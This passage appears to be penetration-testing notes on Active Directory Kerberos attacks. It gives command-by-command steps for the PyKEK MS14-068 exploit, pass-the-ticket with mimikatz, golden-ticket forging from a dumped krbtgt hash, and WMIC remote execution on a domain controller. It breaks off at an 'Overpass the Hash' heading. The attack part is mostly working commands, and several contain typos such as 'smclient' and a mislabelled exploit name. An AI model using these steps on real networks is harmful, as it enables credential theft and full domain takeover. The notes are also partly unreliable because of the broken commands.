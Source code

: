     * \# echo \[attacker IP]\[domain controller hostname] >> /etc/host
  * Next we need 4 pieces of information
    * \-u username@domain (user@domain1)
    * \-d domain controller \[domain.controller.test]
    * \-p password
    * \-s SID (get SID with command “whoami /user”
  * Now that we have all the pieces
    * \#cd /opt/pykek
    * \#python ms12-068.py -d domain.controller.test -u user@domain1 -s \[SID] -p \[password
  * We have created a credential cache ticket and now we copy it where it needs to go
    * \#cp TGT\_user@domain1.ccache /tmp/krb5cc\_0
  * Now you have access with
    * \#smclient -k -W domain1 //domain.controller.test/c$ -k
* Kerberos Pass-The-Ticket
  * Start with writing all tickets to the folder from wihch it was executed.
    * \>privilege :: debug
    * \>sekurlsa::tickets /export
  * Now we import one of those as our tikets and drop back into mimikatz
    * \>kerberos::ptt \[0,ab9bf] \[ticket info]
* Kerberos Golden Ticket attack
  * Creating your own tickets to Auth to any server
  * You can take the old krbtgt hash from the previous hash dump and promote yourself back to Domain admin, all with an unprivileged account
  * A few notes on krbtgt:
    * Do not reset the system generated password, it could break the whole domain
    * Even if you change every password for every domain admin, you can still become a DA
    * You can create Users and Groups that do not exist within the Golden ticket
  * What you need
    * Domain - on victim host type: whoami
    * Domain Admin user - On victim host type: net local group administrators /DOMAIN
    * Domain SID - whoami /user chop off the last dash and 4 digits
    * krbtgt - From previous hashdump, use the second half of the hash/the NTLM hash
  * Process
    * Run Smbexec, choose hashdump, and dump the domain controller
    * A log file will be created with the domain hashes. The one we need is the second part of the krbtgt hash
    * Return to original shell
    * Drop into mimikatz 2.0
      * use kiwi
    * Create golden ticket
      * \>golden\_ticket\_create -u \[domain admin suername] -d \[domain] -k \[krbtgt hash] -s \[Domain SID] -t \[location to Drop Golden Ticket]
  * Using the Golden ticket
    * Shell access with limited access
      * \>session -i
    * Load mimikatz
      * \>use kiwi
    * Check current Kerberos Tickets
      * \> kerberos\_ticket\_list
    * Purge all Kerberos Tickets
      * \>kerberos\_ticket\_purge
    * Local our Golden Ticket (stored in /opt/ticekt.txt in our vm)
      * \>kerberos\_ticket\_use /opt/ticket.txt
    * Drop into a shell and read files off the DC
      * \>shell
      * \> dir \ \DC\c$
    * Once we are authed using the Golden ticket, we can send Domain admin commands using WMIC
    * Example: execute a ping commmand and write that to a file on a remote server
      * wmic /authority:"Kerberos:\[attacker.domain] \\\[target hostname]" /node:\[target hostname] process call create "cmd /c ping 127.0.0.1 > C:\log.txt
* Overpass the Hash
  * Over abuse NTLM user hash to gain a full Kerberos TGT
